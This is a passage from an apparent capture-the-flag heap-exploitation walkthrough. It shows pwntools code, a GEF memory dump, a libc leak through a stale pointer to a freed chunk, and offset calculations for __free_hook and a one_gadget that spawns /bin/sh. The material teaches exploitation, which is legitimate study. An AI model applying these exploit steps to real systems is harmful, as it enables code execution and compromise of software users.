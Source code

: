 ```python
# Now adding a chunk of size 0x128 gives us a chunk from the unsorted bin
# In this case, unsorted bin will have a 0x350 sized chunk on chunk A
# We first add a 0x128 sized chunk so that the libc address gets moved down to chunk B
# This happens because now the unsorted bin will have a chunk starting at chunk B
add(0x128) # idx 8
```

* The key part is that it moves the libc pointers that were in chunk A's `fd` and `bk` down to chunk B, which we ***still*** have a pointer to. This is shown below:

```c
gef➤  x/150gx 0x55a7bc254250
0x55a7bc254250: 0x0000000000000000      0x0000000000000131 <- allocated 0x128 bytes to get chunk A
0x55a7bc254260: 0x00007f7e28fbefe0      0x00007f7e28fbefe0
...
0x55a7bc254380: 0x0000000000000130      0x0000000000000221 <- New consolidated chunk, where chunk B was (and still is)
0x55a7bc254390: 0x00007f7e28fbeca0      0x00007f7e28fbeca0 <- libc pointers moved down
0x55a7bc2543a0: 0x4242424242424242      0x4242424242424242
...
0x55a7bc254490: 0x4242424242424242      0x4242424242424242
0x55a7bc2544a0: 0x0000000000000250      0x0000000000000100 <- chunk C
0x55a7bc2544b0: 0x4343434343434343      0x4343434343434343
0x55a7bc2544c0: 0x4343434343434343      0x4343434343434343
```

#### Step 9: **Use the existing pointer to chunk B to read the libc address of the main_arena**

* Since we still have a pointer to chunk B, we simply use it to read chunk B's contents. In this case, it gives us our libc pointer leak, which we use to calculate the libc base address. With the base address, we also calculate the address of `__free_hook`, which is a function pointer that `free()` uses if it is set by the user. 

* With the base address, we also calculate the address of our `one_gadget`, which is essentially a set of instructions in libc that correspond to `execve("/bin/sh", NULL, NULL)`. The one gadget address is found by running david942j's [one_gadget](https://github.com/david942j/one_gadget) tool on `libc-2.27.so`.

```python
# Now since we have a pointer to chunk B, we can leak the the fd pointer
# Remember the fd pointer just points to `main_arena+0x58`
libc_leak = u64(listen(1).ljust(8, '\x00'))

# Calculate needed offsets
libc.address = libc_leak - 0x3ebca0
one_gadget = libc.address + 0x4f322
free_hook = libc.symbols['__free_hook']

log.info('main arena leak: ' + hex(libc_leak))
log.info('Libc base: ' + hex(libc.address))
log.info('one gadget: ' + hex(one_gadget))
log.info('free_hook: ' + hex(free_hook))
```

